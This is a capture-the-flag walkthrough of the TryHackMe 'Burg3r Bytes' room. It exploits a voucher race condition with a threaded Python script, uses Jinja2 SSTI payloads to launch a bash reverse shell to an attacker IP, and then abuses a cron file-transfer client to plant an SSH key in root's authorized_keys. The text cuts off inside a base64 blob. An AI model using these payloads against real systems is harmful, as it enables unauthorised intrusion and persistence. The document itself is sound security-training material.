

# TryHackMe-Burg3r Bytes

**Scope:**

- Race Condition Vulnerability
- Server-Side Template Injection (SSTI)

**Keywords:**

- Base64 Format File Transfer
- Race Condition Logic
- Server-Side Template Injection (SSTI) Method
- SSH ID RSA Transfer
- SSH Connection
- Python Script Manipulation

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt --min-rate=1000 --max-retries=3 -Pn -p- $target_ip`
- `wfuzz -u http://burg3rbytes.thm/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -c -t 50 --hc 404,500,501`
- `curl --path-as-is -iLsk -X $'GET' -b $'session=eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkRpc2NvdW50IEFwcGxpZWQgU3VjY2Vzc2Z1bGx5ISJdfV0sImNzcmZfdG9rZW4iOiJhMjAzM2I2Njg0YTQxYjk3MzY5YWE2MTlhODJjMWFiZTBiMGRhMDdiIn0.ZxDHvw.bAJkZvuUc-8Nny_pYn9aSWF8z3Q' $'http://burg3rbytes.thm/receipt/82739098304716027352341076?name=overthenet'`
- `echo '/bin/bash -i >& /dev/tcp/10.2.37.37/11222 0>&1' | base64`
- `stty raw -echo; fg`
- `ssh -i /root/.ssh/id_ed25519 -o MACs=hmac-sha2-256 root@burg3rbytes.thm -p 22`

**System Commands:**

- `{{request.application.**globals**.**builtins**.**import**('os').popen('id').read()}}`
- `{{request.application.**globals**.**builtins**.**import**('os').popen('ls').read()}}`
- `{{request.application.**globals**.**builtins**.**import**('os').popen('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjIuMzcuMzcvMTEyMjIgMD4mMQo= | base64 -d | bash').read()}}`
- `{self.__init__.__globals__.__builtins__.__import__('os').popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.2.37.37/11222 0>&1" ').read()}}`
- `ps -aux`
- `cat /etc/host`
- `cp client_py.py backupclient.py`
- `sed -i "s|filename = b'site.db'|filename = b'server.crt'|g" backupclient.py`
- `python3 backupclient.py 172.17.0.1 69`
- `echo aW1wb3J0IHN5cw0 [REDACTED] - MORE AgIG1haW4oKQ== | base64 -d > newclient.py`
- `python3 newclient.py 172.17.0.1 69 get /proc/self/status status`
- `python3 newclient.py 172.17.0.1 69 get /proc/self/cmdline cmdline`
- `python3 newclient.py 172.17.0.1 69 get /opt/3M-syncserver/server.crt server.crt`
- `echo ssh-ed25519 [REDACTED] - SECRET root@kali > idpub.pub`
- `python3 newclient.py 172.17.0.1 69 put idpub.pub /root/.ssh/authorized_keys`

### Laboratory Environment

[TryHackMe | Cyber Security Training](https://tryhackme.com/r/room/burg3rbytes)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt --min-rate=1000 --max-retries=3 -Pn -p- $target_ip`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e7:81:d9:cf:35:ae:32:4b:76:41:b0:a8:51:b9:ec:54 (RSA)
|   256 70:54:64:39:0d:9a:c8:cb:9e:61:40:7d:e2:7b:a3:34 (ECDSA)
|_  256 01:39:5c:09:ac:1d:b0:be:1e:a8:c8:b8:4a:43:97:00 (ED25519)
80/tcp open  http    Werkzeug/3.0.2 Python/3.8.10
|_http-title: Burg3rByte
|_http-server-header: Werkzeug/3.0.2 Python/3.8.10
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.2 Python/3.8.10
|     Date: Thu, 17 Oct 2024 08:00:37 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 12703
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0, shrink-to-fit=no">
|     <title>Burg3rByte</title>
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/stylesheet.css">
|     </head>
|     <body>
|     <nav class="navbar navbar-light navbar-expand-md py-3">
|     <div class="container"><a class="navbar-brand d-flex align-items-center" href="#"><span style="padding-right: 0px;">Burg3rByte</span></a><button data-toggle="collapse" class="navbar-toggler" data-target="#navcol-4"><span class="sr-only">Toggle navigation</span><span class="navbar-toggler-icon"></span></button>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.2 Python/3.8.10
|     Date: Thu, 17 Oct 2024 08:00:37 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, OPTIONS, HEAD
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
```

> **HTTP Port Check**
> 

`curl -iLX GET -D response.txt http://burg3rbytes.thm`

```bash
HTTP/1.1 200 OK
Server: Werkzeug/3.0.2 Python/3.8.10
Date: Thu, 17 Oct 2024 08:04:14 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 12703
Connection: close

[REDACTED] - MORE

                <div class="dropdown-menu" aria-labelledby="dropdownMenuLink">
                    <a class="dropdown-item" href="#">Register</a>
                    <a class="dropdown-item" href="#">Login</a>
                  </div>

                  <a class="btn btn-info" role="button" href="/basket">Basket </a>
                  
[REDACTED] - MORE

                       <h4 class="font-weight-bold">Xterm-and-Share</h4>
                        <p>Pizza, much like terminals, are meant to be shared. There's no emulation here! Dig in to our 20" sharing pizza with your CTF team. Comes with a tomato base, pepperoni and the goudest cheese around.</p>
                        <p>£2,000*</p><a class="btn btn-outline-info" href="/add-to-basket?itemid=XTERM">Add to Cart</a>
                    </div>
                </div>

[REDACTED] - MORE
```

> **Directory Scan & Endpoint Control**
> 

`wfuzz -u http://burg3rbytes.thm/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -c -t 50 --hc 404,500,501`

```bash
000000039:   200        100 L    527 W      7723 Ch     "login"                                                                          
000000051:   200        100 L    529 W      7772 Ch     "register"                                                                       
000001277:   200        85 L     475 W      6079 Ch     "basket"                                                                         
000001682:   200        80 L     201 W      3094 Ch     "checkout"                                                                       
000003663:   200        45 L     144 W      1563 Ch     "console" 
```

`curl -iLX GET -D checkoutresponse.txt http://burg3rbytes.thm/checkout`

```bash
HTTP/1.1 200 OK
Server: Werkzeug/3.0.2 Python/3.8.10
Date: Thu, 17 Oct 2024 08:06:35 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 3095
Vary: Cookie
Set-Cookie: session=eyJjc3JmX3Rva2VuIjoiOTFhZjRiYzRhODJiN2FjZTBjNzY3MzY1ODBjMWIzY2RjYmFhNzQ1NSJ9.ZxDFiw.UC0N6TD4lXSYhGJJQyRn6D1z98Q; HttpOnly; Path=/
Connection: close

<!DOCTYPE html>
<html lang="en">
<head>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0, shrink-to-fit=no">
    <link rel="stylesheet" href="../static/css/bootstrap.min.css">
    <link rel="stylesheet" href="../static/css/stylesheet.css">
    <title>Checkout</title>
</head>
<body>

<nav class="navbar navbar-light navbar-expand-md py-3">
    <div class="container"><a class="navbar-brand d-flex align-items-center" href="#"><span style="padding-right: 0px;">Burg3rByte</span></a><button data-toggle="collapse" class="navbar-toggler" data-target="#navcol-4"><span class="sr-only">Toggle navigation</span><span class="navbar-toggler-icon"></span></button>
        <div class="collapse navbar-collapse flex-grow-0 order-md-first" id="navcol-4">
            <ul class="navbar-nav ml-auto">
                <li class="nav-item"><a class="nav-link active" href="/">Menu</a></li>
                <li class="nav-item"><a class="nav-link" href="/">Reviews</a></li>
            </ul>
            <div class="d-md-none my-2"><button class="btn btn-light mr-2" type="button">Button</button><button class="btn btn-primary" type="button">Button</button></div>
        </div>
        <div class="d-none d-md-block">

        <span class="btn btn-primary" role="button" id="dropdownMenuLink" aria-haspopup="true" aria-expanded="false">Balance £</span>

            <div class="dropdown-menu" aria-labelledby="dropdownMenuLink">
                <a class="dropdown-item" href="#">Register</a>
                <a class="dropdown-item" href="login.html">Login</a>
              </div>

      <a class="btn btn-info" role="button" href="/basket">Basket </a>
    </div>
</nav>

<section class="position-relative py-4 py-xl-5">
    <div class="container">
        <div class="row mb-5">
            <div class="col-md-8 col-xl-6 text-center mx-auto">
                <h2>Checkout</h2>
                <!-- Display flash messages for feedback -->
<!-- Display flash messages for feedback -->

    

</div>
</div>

        <div class="row d-flex justify-content-center">
            <div class="col-md-6 col-xl-4">
                <div class="card mb-5">
                    <div class="card-body d-flex flex-column align-items-center">
                        <p>Apply voucher</p>
<form method="POST" action="/checkout">
    <input id="csrf_token" name="csrf_token" type="hidden" value="IjkxYWY0YmM0YTgyYjdhY2UwYzc2NzM2NTgwYzFiM2NkY2JhYTc0NTUi.ZxDFiw.7g_qauYMaxC0YS97hqnEyj7Lffg">
    <p>
        <label for="name">Your Name</label><br>
        <input id="name" name="name" size="32" type="text" value=""><br>
    </p>
    <p>
        <label for="voucher_code">Voucher Code</label><br>
        <input id="voucher_code" name="voucher_code" size="32" type="text" value=""><br>
    </p>
    <p><input id="submit" name="submit" type="submit" value="Checkout"></p>
</form>

                    </div>
                </div>
            </div>
        </div>
    </div>
</section>

<!-- checkout details here -->

<a href="/">Return to Home</a>
</body>
</html>
```




> **Internal Logic Discovery & Race Condition Vulnerability Phase**
> 


**PAYLOAD:**

```bash
TRYHACK3M
```


`nano racepython.py`

```bash
#!/usr/bin/env python3

import requests
import threading

target_ip = "10.10.248.224"
CSRFToken = "ImEyMDMzYjY2ODRhNDFiOTczNjlhYTYxOWE4MmMxYWJlMGIwZGEwN2Ii.ZxDHqA.nsKFyj__uswEazecQmiyA-U8ins"
SESSIONID = "eyJjc3JmX3Rva2VuIjoiYTIwMzNiNjY4NGE0MWI5NzM2OWFhNjE5YTgyYzFhYmUwYjBkYTA3YiJ9.ZxDHnw.Busrt5BRA1P7ATsVjT4c_H0rlIg"
AccountName = "overthenet"

def clear_voucher():
	requests.get(f"http://{target_ip}/clear-vouchers")

def send_voucher():
	r = requests.post(f"http://{target_ip}/checkout", cookies={"session":SESSIONID}, data={"csrf_token":CSRFToken,"name":AccountName,"voucher_code":"TRYHACK3M","submit":"Checkout"}, proxies={"http":"http://127.0.0.1:8080"})

clear_voucher()

threads = []
for i in range(0, 10):
	threads.append(threading.Thread(target=send_voucher))

for thread in threads:
	thread.start()

for thread in threads:
	thread.join()
```

`python racepython.py`


> **Server-Side Template Injection (SSTI) Phase**
> 

**For more information:**

[A Simple Flask (Jinja2) Server-Side Template Injection (SSTI) Example](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)

[SSTI (Server Side Template Injection) | HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

`curl --path-as-is -iLsk -X $'GET' -b $'session=eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkRpc2NvdW50IEFwcGxpZWQgU3VjY2Vzc2Z1bGx5ISJdfV0sImNzcmZfdG9rZW4iOiJhMjAzM2I2Njg0YTQxYjk3MzY5YWE2MTlhODJjMWFiZTBiMGRhMDdiIn0.ZxDHvw.bAJkZvuUc-8Nny_pYn9aSWF8z3Q' $'http://burg3rbytes.thm/receipt/82739098304716027352341076?name=overthenet'`

```bash
HTTP/1.1 200 OK
Server: Werkzeug/3.0.2 Python/3.8.10
Date: Thu, 17 Oct 2024 08:26:54 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 569
Connection: close

<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Success</title>
</head>
<body>
    <h1>Congratulations on Your Purchase!</h1>
    <p>Dear overthenet,</p>
    <p>Thank you for purchasing the 3M item! As a token of our appreciation, please find below your special certificate:</p>
    <div style="margin: 20px; padding: 20px; border: 2px dashed #333;">
        <h2> TryHack3M  </h2>
        <p>This certifies that <strong>overthenet</strong> is now the proud owner of the 3M item.</p>
    </div>
    <p>We hope you enjoy your treat.</p>
</body>
</html>

```


**PAYLOAD:**

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```


**PAYLOAD:**

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

> **Reverse Shell Phase**
> 

`nc -nlvp 11222`

```bash
listening on [any] 11222 ...
```

`echo '/bin/bash -i >& /dev/tcp/10.2.37.37/11222 0>&1' | base64`

```bash
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjIuMzcuMzcvMTEyMjIgMD4mMQo=
```


**PAYLOAD:**

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjIuMzcuMzcvMTEyMjIgMD4mMQo= | base64 -d | bash').read()}}
```

**ANOTHER PAYLOAD:**

```bash
{self.__init__.__globals__.__builtins__.__import__('os').popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.2.37.37/11222 0>&1" ').read()}}
```

```bash
listening on [any] 11222 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.114.86] 46958
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@7b05c5df3d55:/app# whoami
whoami
root
root@7b05c5df3d55:/app# id
id
uid=0(root) gid=0(root) groups=0(root)
root@7b05c5df3d55:/app# pwd
pwd
/app
root@7b05c5df3d55:/app# ^z
zsh: suspended  nc -nlvp 11222
```

`stty raw -echo; fg`

```bash
[1]  + continued  nc -nlvp 11222
root@7b05c5df3d55:/app# 
```

> **Internal System Enumeration**
> 

```bash
root@7b05c5df3d55:/app# ls -lsa
ls -lsa
total 84
8 drwxr-xr-x 1 root root 4096 Apr 12  2024 .
4 drwxr-xr-x 1 root root 4096 Apr 12  2024 ..
8 -rw-rw-r-- 1 root root 6148 Apr  2  2024 .DS_Store
4 -rw-rw-r-- 1 root root  389 Apr 12  2024 Dockerfile
4 -rw-rw-r-- 1 root root   44 Apr  5  2024 README.md
4 drwxrwxr-x 2 root root 4096 Apr 12  2024 __pycache__
8 -rw-rw-r-- 1 root root 5205 Apr 10  2024 app.py
8 drwxrwxr-x 1 root root 4096 Apr 12  2024 cron
4 -rw-r--r-- 1 root root   24 Apr 12  2024 flag.txt
8 drwxrwxr-x 1 root root 4096 Apr 12  2024 instance
4 -rw-rw-r-- 1 root root   60 Apr  2  2024 launch.sh
4 -rw-rw-r-- 1 root root   53 Apr 10  2024 requirements.txt
4 drwxrwxr-x 6 root root 4096 Apr 12  2024 static
4 drwxrwxr-x 2 root root 4096 Apr 12  2024 templates
4 drwxrwxr-x 4 root root 4096 Apr 12  2024 venv
4 -rw-rw-r-- 1 root root   59 Apr  2  2024 wsgi.py

root@7b05c5df3d55:/app# cd cron
root@7b05c5df3d55:/app/cron# ls -lsa
total 36
8 drwxrwxr-x 1 root root 4096 Apr 12  2024 .
8 drwxr-xr-x 1 root root 4096 Apr 12  2024 ..
4 -rw-rw-r-- 1 root root  451 Apr  5  2024 client.crt
4 -rw-rw-r-- 1 root root 1704 Apr  5  2024 client.key
8 -rw-r--r-- 1 root root 4844 Apr 10  2024 client_py.py
4 -rw-rw-r-- 1 root root   62 Apr 10  2024 crontab

root@7b05c5df3d55:/app/cron# cat crontab
cat crontab
20 3 * * * cd /app/cron && python3 client_py.py 172.17.0.1 69

root@7b05c5df3d55:/app/cron# cat client_py.py

import sys
import socket
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_OAEP
from Crypto.Signature import pss
from Crypto.Hash import SHA256
import binascii
import base64

MAX_SIZE = 200

opcodes = {
    'read': 1,
    'write': 2,
    'data': 3,
    'ack': 4,
    'error': 5
}

mode_strings = ['netascii', 'octet', 'mail']

with open("client.key", "rb") as f:
    data = f.read()
    privkey = RSA.import_key(data)

with open("client.crt", "rb") as f:
    data = f.read()
    pubkey = RSA.import_key(data)

try:
    with open("server.crt", "rb") as f:
        data = f.read()
        server_pubkey = RSA.import_key(data)
except:
    server_pubkey = False

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.settimeout(3.0)
server_address = (sys.argv[1], int(sys.argv[2]))

def encrypt(s, pubkey):
    cipher = PKCS1_OAEP.new(pubkey)
    return cipher.encrypt(s)

def decrypt(s, privkey):
    cipher = PKCS1_OAEP.new(privkey)
    return cipher.decrypt(s)

def send_rrq(filename, mode, signature, server):
    rrq = bytearray()
    rrq.append(0)
    rrq.append(opcodes['read'])
    rrq += bytearray(filename)
    rrq.append(0)
    rrq += bytearray(mode)
    rrq.append(0)
    rrq += bytearray(signature)
    rrq.append(0)
    sock.sendto(rrq, server)
    return True

def send_wrq(filename, mode, server):
    wrq = bytearray()
    wrq.append(0)
    wrq.append(opcodes['write'])
    wrq += bytearray(filename)
    wrq.append(0)
    wrq += bytearray(mode)
    wrq.append(0)
    sock.sendto(wrq, server)
    return True

def send_ack(block_number, server):
    if len(block_number) != 2:
        print('Error: Block number must be 2 bytes long.')
        return False
    ack = bytearray()
    ack.append(0)
    ack.append(opcodes['ack'])
    ack += bytearray(block_number)
    sock.sendto(ack, server)
    return True

def send_error(server, code, msg):
    err = bytearray()
    err.append(0)
    err.append(opcodes['error'])
    err.append(0)
    err.append(code & 0xff)
    pkt += bytearray(msg + b'\0')
    sock.sendto(pkt, server)

def send_data(server, block_num, block):
    if len(block_num) != 2:
        print('Error: Block number must be 2 bytes long.')
        return False
    pkt = bytearray()
    pkt.append(0)
    pkt.append(opcodes['data'])
    pkt += bytearray(block_num)
    pkt += bytearray(block)
    sock.sendto(pkt, server)

def get_file(filename, mode):
    h = SHA256.new(filename)
    signature = base64.b64encode(pss.new(privkey).sign(h))

    send_rrq(filename, mode, signature, server_address)
    
    file = open(filename, "wb")

    while True:
        data, server = sock.recvfrom(MAX_SIZE * 3)

        if data[1] == opcodes['error']:
            error_code = int.from_bytes(data[2:4], byteorder='big')
            print(data[4:])
            break
        send_ack(data[2:4], server)
        content = data[4:]
        content = base64.b64decode(content)
        content = decrypt(content, privkey)
        file.write(content)
        if len(content) < MAX_SIZE:
            print("file received!")
            break

def put_file(filename, mode):
    if not server_pubkey:
        print("Error: Server pubkey not configured. You won't be able to PUT")
        return

    try:
        file = open(filename, "rb")
        fdata = file.read()
        total_len = len(fdata)
    except:
        print("Error: File doesn't exist")
        return False

    send_wrq(filename, mode, server_address)
    data, server = sock.recvfrom(MAX_SIZE * 3)
    
    if data != b'\x00\x04\x00\x00': # ack 0
        print("Error: Server didn't respond with ACK to WRQ")
        return False

    block_num = 1
    while len(fdata) > 0:
        b_block_num = block_num.to_bytes(2, 'big')
        block = fdata[:MAX_SIZE]
        block = encrypt(block, server_pubkey)
        block = base64.b64encode(block)
        fdata = fdata[MAX_SIZE:]
        send_data(server, b_block_num, block)
        data, server = sock.recvfrom(MAX_SIZE * 3)
        
        if data != b'\x00\x04' + b_block_num:
            print("Error: Server sent unexpected response")
            return False

        block_num += 1

    if total_len % MAX_SIZE == 0:
        b_block_num = block_num.to_bytes(2, 'big')
        send_data(server, b_block_num, b"")
        data, server = sock.recvfrom(MAX_SIZE * 3)
        
        if data != b'\x00\x04' + b_block_num:
            print("Error: Server sent unexpected response")
            return False

    print("File sent successfully")
    return True

def main():
    filename = b'site.db'
    mode = b'netascii'

    get_file(filename, mode)
    exit(0)

if __name__ == '__main__':
    main()
 
root@7b05c5df3d55:/app/cron# ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  2.4  54760 48520 ?        Ss   08:40   0:00 python3 app.p
root          40  0.0  0.0   2616   532 ?        S    08:46   0:00 /bin/sh -c ec
root          43  0.0  0.1   4212  3028 ?        S    08:46   0:00 bash
root          44  0.0  0.1   4344  3452 ?        S    08:46   0:00 /bin/bash -i
root          47  0.0  0.4  12360  8392 ?        S    08:46   0:00 python3 -c im
root          48  0.0  0.1   4476  3564 pts/0    Ss   08:46   0:00 /bin/bash
root          66  2.2  2.4 128492 48592 ?        Sl   08:53   0:00 /usr/bin/pyth
root          69  0.0  0.1   6128  2904 pts/0    R+   08:53   0:00 ps -aux

root@7b05c5df3d55:/app/cron# cat /etc/host
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      7b05c5df3d55

root@7b05c5df3d55:/app/cron#
```

> **Privilege Escalation with Internal Logic**
> 

```bash
root@7b05c5df3d55:/app/cron# cp client_py.py backupclient.py
root@7b05c5df3d55:/app/cron# sed -i "s|filename = b'site.db'|filename = b'server.crt'|g" backupclient.py
root@7b05c5df3d55:/app/cron# python3 backupclient.py 172.17.0.1 69
python3 backupclient.py 172.17.0.1 69
file received!
root@7b05c5df3d55:/app/cron# ls
backupclient.py  client.crt  client.key  client_py.py  crontab  server.crt

root@7b05c5df3d55:/app/cron#

```

`nano newclientscript.py`

```bash
import sys
import socket
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_OAEP
from Crypto.Signature import pss
from Crypto.Hash import SHA256
import binascii
import base64

MAX_SIZE = 200

opcodes = {
    'read': 1,
    'write': 2,
    'data': 3,
    'ack': 4,
    'error': 5
}

mode_strings = ['netascii', 'octet', 'mail']

with open("client.key", "rb") as f:
    data = f.read()
    privkey = RSA.import_key(data)

with open("client.crt", "rb") as f:
    data = f.read()
    pubkey = RSA.import_key(data)

try:
    with open("server.crt", "rb") as f:
        data = f.read()
        server_pubkey = RSA.import_key(data)
except:
    server_pubkey = False

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.settimeout(3.0)
server_address = (sys.argv[1], int(sys.argv[2]))

def encrypt(s, pubkey):
    cipher = PKCS1_OAEP.new(pubkey)
    return cipher.encrypt(s)

def decrypt(s, privkey):
    cipher = PKCS1_OAEP.new(privkey)
    return cipher.decrypt(s)

def send_rrq(filename, mode, signature, server):
    rrq = bytearray()
    rrq.append(0)
    rrq.append(opcodes['read'])
    rrq += bytearray(filename)
    rrq.append(0)
    rrq += bytearray(mode)
    rrq.append(0)
    rrq += bytearray(signature)
    rrq.append(0)
    sock.sendto(rrq, server)
    return True

def send_wrq(filename, mode, server):
    wrq = bytearray()
    wrq.append(0)
    wrq.append(opcodes['write'])
    wrq += bytearray(filename)
    wrq.append(0)
    wrq += bytearray(mode)
    wrq.append(0)
    sock.sendto(wrq, server)
    return True

def send_ack(block_number, server):
    if len(block_number) != 2:
        print('Error: Block number must be 2 bytes long.')
        return False
    ack = bytearray()
    ack.append(0)
    ack.append(opcodes['ack'])
    ack += bytearray(block_number)
    sock.sendto(ack, server)
    return True

def send_error(server, code, msg):
    err = bytearray()
    err.append(0)
    err.append(opcodes['error'])
    err.append(0)
    err.append(code & 0xff)
    pkt += bytearray(msg + b'\0')
    sock.sendto(pkt, server)

def send_data(server, block_num, block):
    if len(block_num) != 2:
        print('Error: Block number must be 2 bytes long.')
        return False
    pkt = bytearray()
    pkt.append(0)
    pkt.append(opcodes['data'])
    pkt += bytearray(block_num)
    pkt += bytearray(block)
    sock.sendto(pkt, server)

def get_file(src_file, dest_file, mode):
    h = SHA256.new(src_file)
    signature = base64.b64encode(pss.new(privkey).sign(h))

    send_rrq(src_file, mode, signature, server_address)
    
    file = open(dest_file, "wb")

    while True:
        data, server = sock.recvfrom(MAX_SIZE * 3)

        if data[1] == opcodes['error']:
            error_code = int.from_bytes(data[2:4], byteorder='big')
            print(data[4:])
            break
        send_ack(data[2:4], server)
        content = data[4:]
        content = base64.b64decode(content)
        content = decrypt(content, privkey)
        file.write(content)
        if len(content) < MAX_SIZE:
            print("file received!")
            break

def put_file(src_file, dest_file, mode):
    if not server_pubkey:
        print("Error: Server pubkey not configured. You won't be able to PUT")
        return

    try:
        file = open(src_file, "rb")
        fdata = file.read()
        total_len = len(fdata)
    except:
        print("Error: File doesn't exist")
        return False

    send_wrq(dest_file, mode, server_address)
    data, server = sock.recvfrom(MAX_SIZE * 3)
    
    if data != b'\x00\x04\x00\x00': # ack 0
        print("Error: Server didn't respond with ACK to WRQ")
        return False

    block_num = 1
    while len(fdata) > 0:
        b_block_num = block_num.to_bytes(2, 'big')
        block = fdata[:MAX_SIZE]
        block = encrypt(block, server_pubkey)
        block = base64.b64encode(block)
        fdata = fdata[MAX_SIZE:]
        send_data(server, b_block_num, block)
        data, server = sock.recvfrom(MAX_SIZE * 3)
        
        if data != b'\x00\x04' + b_block_num:
            print("Error: Server sent unexpected response")
            return False

        block_num += 1

    if total_len % MAX_SIZE == 0:
        b_block_num = block_num.to_bytes(2, 'big')
        send_data(server, b_block_num, b"")
        data, server = sock.recvfrom(MAX_SIZE * 3)
        
        if data != b'\x00\x04' + b_block_num:
            print("Error: Server sent unexpected response")
            return False

    print("File sent successfully")
    return True

def main():
    op = sys.argv[3]
    src_file = sys.argv[4].encode()
    dest_file = sys.argv[5].encode()
    mode = b'netascii'
    if op == "get":
        get_file(src_file, dest_file, mode)
    elif op == "put":
        put_file(src_file, dest_file, mode)
    else:
        print("Invalid operation.")
    exit(0)

if __name__ == '__main__':
    main()
```


**For online tool:**

[CyberChef](https://gchq.github.io/CyberChef/)

**PAYLOAD:**

```bash
aW1wb3J0IHN5cw0KaW1wb3J0IHNvY2tldA0KZnJvbSBDcnlwdG8uUHVibGljS2V5IGltcG9ydCBSU0ENCmZyb20gQ3J5cHRvLkNpcGhlciBpbXBvcnQgUEtDUzFfT0FFUA0KZnJvbSBDcnlwdG8uU2lnbmF0dXJlIGltcG9ydCBwc3MNCmZyb20gQ3J5cHRvLkhhc2ggaW1wb3J0IFNIQTI1Ng0KaW1wb3J0IGJpbmFzY2lpDQppbXBvcnQgYmFzZTY0DQoNCk1BWF9TSVpFID0gMjAwDQoNCm9wY29kZXMgPSB7DQogICAgJ3JlYWQnOiAxLA0KICAgICd3cml0ZSc6IDIsDQogICAgJ2RhdGEnOiAzLA0KICAgICdhY2snOiA0LA0KICAgICdlcnJvcic6IDUNCn0NCg0KbW9kZV9zdHJpbmdzID0gWyduZXRhc2NpaScsICdvY3RldCcsICdtYWlsJ10NCg0Kd2l0aCBvcGVuKCJjbGllbnQua2V5IiwgInJiIikgYXMgZjoNCiAgICBkYXRhID0gZi5yZWFkKCkNCiAgICBwcml2a2V5ID0gUlNBLmltcG9ydF9rZXkoZGF0YSkNCg0Kd2l0aCBvcGVuKCJjbGllbnQuY3J0IiwgInJiIikgYXMgZjoNCiAgICBkYXRhID0gZi5yZWFkKCkNCiAgICBwdWJrZXkgPSBSU0EuaW1wb3J0X2tleShkYXRhKQ0KDQp0cnk6DQogICAgd2l0aCBvcGVuKCJzZXJ2ZXIuY3J0IiwgInJiIikgYXMgZjoNCiAgICAgICAgZGF0YSA9IGYucmVhZCgpDQogICAgICAgIHNlcnZlcl9wdWJrZXkgPSBSU0EuaW1wb3J0X2tleShkYXRhKQ0KZXhjZXB0Og0KICAgIHNlcnZlcl9wdWJrZXkgPSBGYWxzZQ0KDQpzb2NrID0gc29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCwgc29ja2V0LlNPQ0tfREdSQU0pDQpzb2NrLnNldHRpbWVvdXQoMy4wKQ0Kc2VydmVyX2FkZHJlc3MgPSAoc3lzLmFyZ3ZbMV0sIGludChzeXMuYXJndlsyXSkpDQoNCmRlZiBlbmNyeXB0KHMsIHB1YmtleSk6DQogICAgY2lwaGVyID0gUEtDUzFfT0FFUC5uZXcocHVia2V5KQ0KICAgIHJldHVybiBjaXBoZXIuZW5jcnlwdChzKQ0KDQpkZWYgZGVjcnlwdChzLCBwcml2a2V5KToNCiAgICBjaXBoZXIgPSBQS0NTMV9PQUVQLm5ldyhwcml2a2V5KQ0KICAgIHJldHVybiBjaXBoZXIuZGVjcnlwdChzKQ0KDQpkZWYgc2VuZF9ycnEoZmlsZW5hbWUsIG1vZGUsIHNpZ25hdHVyZ